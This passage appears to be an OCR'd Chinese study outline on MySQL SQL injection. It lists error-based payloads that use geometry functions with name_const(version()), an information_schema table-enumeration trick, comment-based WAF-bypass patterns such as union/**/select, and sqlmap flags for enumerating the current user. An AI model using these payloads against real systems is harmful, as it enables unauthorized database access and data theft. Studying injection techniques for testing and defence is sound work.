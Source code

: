 polygon((select*from(select name_const(version(),1))x))

linestring()

multipoint()

multilinestring()

multipolygon()

MySQL特殊语法

select{x table_name}from{x information_schema.tables};

3、Fuzz绕过

注释符绕过

最基本的:union/**/select

中间引入特殊字:union/*aaa%0abbs*/select

最后测试注释长度:union/*aaaaaaaaaaaaaaa*/select

最基本的模式:union/*something*/select

a1%!%2f



十二、sqlmap的conf

sqlmap.py -v3(主函数入口)

--user-agent=websecurity(请求扩充)

--threads=5(访问优化)

-p id注入配置

--level 3（检测配置）

--technique=E(注入技术)

--current-user(信息获取)

--flush-session（通用设置）

--beep(杂项)幕布 - 极简大纲笔记 | 一键生成思维导图